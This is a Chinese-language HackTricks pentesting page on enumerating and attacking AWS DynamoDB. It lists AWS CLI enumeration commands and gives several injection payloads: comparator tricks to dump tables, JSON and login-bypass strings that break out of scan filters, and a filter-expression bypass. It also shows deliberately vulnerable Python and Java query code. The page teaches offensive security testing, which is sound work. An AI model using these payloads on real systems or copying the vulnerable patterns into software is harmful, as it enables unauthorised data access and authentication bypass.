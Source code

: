 # AWS - DynamoDB Enum

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## DynamoDB

### 基本信息

Amazon DynamoDB 被 AWS 提供为一个 **完全托管的无服务器键值 NoSQL 数据库**，旨在为各种规模的高性能应用提供支持。该服务确保了强大的功能，包括内置的安全措施、不间断的备份、跨多个区域的自动复制、集成的内存缓存和便捷的数据导出工具。

在 DynamoDB 的上下文中，而不是建立传统数据库，**创建表**。每个表都要求指定一个 **分区键**，作为 **表主键** 的一个组成部分。这个分区键，实质上是一个 **哈希值**，在项目的检索和数据在不同主机之间的分配中起着关键作用。这种分配对于维护数据库的可扩展性和可用性至关重要。此外，还有一个选项可以加入 **排序键** 以进一步细化数据组织。

### 加密

默认情况下，DynamoDB 使用一个 **属于 Amazon DynamoDB 的 KMS 密钥，**甚至不是至少属于您账户的 AWS 管理密钥。

<figure><img src="https://lh4.googleusercontent.com/JjtNS7aA-_GRMgZb4v93jWEQJi6DQdUPq0FEpzZPdeyCeNoG05p0NJiV9Zs-ULs_-Tfjmx0W1ZgsE2Ui2ljo7D-1a87Xny-gpLVQO0XmXdFoph9ci1RepbVNwaCe9oPruEZSEDxGTxF5dIv6pW1WpT6kWA=s2048" alt=""><figcaption></figcaption></figure>

### 备份与导出到 S3

可以 **安排** 生成 **表备份** 或按 **需** 创建它们。此外，还可以为表启用 **时间点恢复 (PITR)**。时间点恢复为您的 DynamoDB 数据提供连续的 **备份**，持续 **35 天**，以帮助您防止意外的写入或删除操作。

还可以将 **表的数据导出到 S3**，但该表需要启用 **PITR**。

### GUI

有一个用于本地 Dynamo 服务的 GUI，如 [DynamoDB Local](https://aws.amazon.com/blogs/aws/dynamodb-local-for-desktop-development/)、[dynalite](https://github.com/mhart/dynalite)、[localstack](https://github.com/localstack/localstack) 等，这些可能会很有用：[https://github.com/aaronshaf/dynamodb-admin](https://github.com/aaronshaf/dynamodb-admin)

### 枚举
```bash
# Tables
aws dynamodb list-tables
aws dynamodb describe-table --table-name <t_name> #Get metadata info
## The primary key and sort key will appear inside the KeySchema field

#Check if point in time recovery is enabled
aws dynamodb describe-continuous-backups \
--table-name tablename

# Backups
aws dynamodb list-backups
aws dynamodb describe-backup --backup-arn <arn>
aws dynamodb describe-continuous-backups --table-name <t_name>

# Global tables
aws dynamodb list-global-tables
aws dynamodb describe-global-table --global-table-name <name>

# Exports
aws dynamodb list-exports
aws dynamodb describe-export --export-arn <arn>

# Misc
aws dynamodb describe-endpoints #Dynamodb endpoints
```
### 未经身份验证的访问

{% content-ref url="../aws-unauthenticated-enum-access/aws-dynamodb-unauthenticated-access.md" %}
[aws-dynamodb-unauthenticated-access.md](../aws-unauthenticated-enum-access/aws-dynamodb-unauthenticated-access.md)
{% endcontent-ref %}

### 权限提升

{% content-ref url="../aws-privilege-escalation/aws-dynamodb-privesc.md" %}
[aws-dynamodb-privesc.md](../aws-privilege-escalation/aws-dynamodb-privesc.md)
{% endcontent-ref %}

### 利用后

{% content-ref url="../aws-post-exploitation/aws-dynamodb-post-exploitation.md" %}
[aws-dynamodb-post-exploitation.md](../aws-post-exploitation/aws-dynamodb-post-exploitation.md)
{% endcontent-ref %}

### 持久性

{% content-ref url="../aws-persistence/aws-dynamodb-persistence.md" %}
[aws-dynamodb-persistence.md](../aws-persistence/aws-dynamodb-persistence.md)
{% endcontent-ref %}

## DynamoDB 注入

### SQL 注入

有方法可以使用 **SQL 语法** 访问 DynamoDB 数据，因此，典型的 **SQL 注入也是可能的**。

{% embed url="https://book.hacktricks.xyz/pentesting-web/sql-injection" %}

### NoSQL 注入

在 DynamoDB 中，可以使用不同的 **条件** 来检索数据，就像在常见的 NoSQL 注入中，如果可以 **链接更多条件以检索** 数据，您可能会获得隐藏的数据（或转储整个表）。\
您可以在这里找到 DynamoDB 支持的条件：[https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API\_Condition.html](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API\_Condition.html)

请注意，如果通过 **`query`** 或 **`scan`** 访问数据，则支持 **不同的条件**。

{% hint style="info" %}
实际上，**Query** 操作需要在 **主** 键中指定 **条件 "EQ"（等于）** 才能工作，这使其 **更不容易受到 NoSQL 注入**（并且还使操作非常有限）。
{% endhint %}

如果您可以 **更改执行的比较** 或添加新的比较，您可能会检索到更多数据。
```bash
# Comparators to dump the database
"NE": "a123" #Get everything that doesn't equal "a123"
"NOT_CONTAINS": "a123" #What you think
"GT": " " #All strings are greater than a space
```
{% embed url="https://book.hacktricks.xyz/pentesting-web/nosql-injection" %}

### 原始 Json 注入

{% hint style="danger" %}
**此漏洞基于现已弃用的 dynamodb 扫描过滤器！**
{% endhint %}

**DynamoDB** 接受 **Json** 对象以 **搜索** 数据。如果你发现可以在发送的 json 对象中进行写入，你可以使数据库转储所有内容。

例如，在请求中注入如下内容：

{% code overflow="wrap" %}
```bash
'{"Id": {"ComparisonOperator": "EQ","AttributeValueList": [{"N": "' + user_input + '"}]}}'
```
{% endcode %}

攻击者可以注入类似于：

`1000"}],"ComparisonOperator": "GT","AttributeValueList": [{"N": "0`

修复“EQ”条件，搜索 ID 1000，然后查找所有 Id 字符串大于 0 的数据，即所有数据。

另一个 **使用登录的脆弱示例** 可以是：
```python
scan_filter = """{
"username": {
"ComparisonOperator": "EQ",
"AttributeValueList": [{"S": "%s"}]
},
"password": {
"ComparisonOperator": "EQ",
"AttributeValueList": [{"S": "%s"}]
}
}
""" % (user_data['username'], user_data['password'])

dynamodb.scan(TableName="table-name", ScanFilter=json.loads(scan_filter))
```
这将容易受到以下攻击：
```
username: none"}],"ComparisonOperator": "NE","AttributeValueList": [{"S": "none
password: none"}],"ComparisonOperator": "NE","AttributeValueList": [{"S": "none
```
### :property Injection

某些 SDK 允许使用一个字符串来指示要执行的过滤，如： 

{% code overflow="wrap" %}
```java
new ScanSpec().withProjectionExpression("UserName").withFilterExpression(user_input+" = :username and Password = :password").withValueMap(valueMap)
```
{% endcode %}

您需要知道，在DynamoDB中搜索以**替换**属性**值**的**过滤表达式**时，令牌应以**`:`**字符**开头**。这样的令牌将在运行时**替换**为实际的**属性值**。

因此，像之前的登录可以通过以下方式绕过：
```bash
:username = :username or :username
# This will generate the query:
# :username = :username or :username = :username and Password = :password
# which is always true
```
{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 **上关注我们** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
